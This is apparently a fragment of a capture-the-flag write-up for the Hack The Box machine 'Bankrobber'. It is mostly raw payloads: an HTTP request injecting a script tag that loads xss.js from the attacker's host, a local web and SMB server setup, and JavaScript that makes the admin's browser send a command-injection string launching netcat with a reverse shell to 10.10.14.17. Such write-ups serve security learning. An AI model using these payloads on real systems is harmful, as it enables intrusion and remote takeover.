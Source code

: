 POST /user/transfer.php HTTP/1.1
Host: 10.10.10.154
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://10.10.10.154
DNT: 1
Connection: close
Referer: http://10.10.10.154/user/
Cookie: id=3; username=aGFja2Vy; password=aGFja2Vy

fromId=3&toId=1&amount=1&comment=<script+src%3d"http%3a//10.10.14.17/xss.js">




kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
10.10.10.154 - - [05/Feb/2021 16:11:38] "GET /xss.js HTTP/1.1" 200 



![](2021-02-05-16-24-01.png)

sudo /usr/bin/impacket-smbserver -smb2support share .

var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.17\\share\\nc.exe 10.10.14.17 443 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
xhr.send(params);


![](2021-02-05-16-44-14.png)
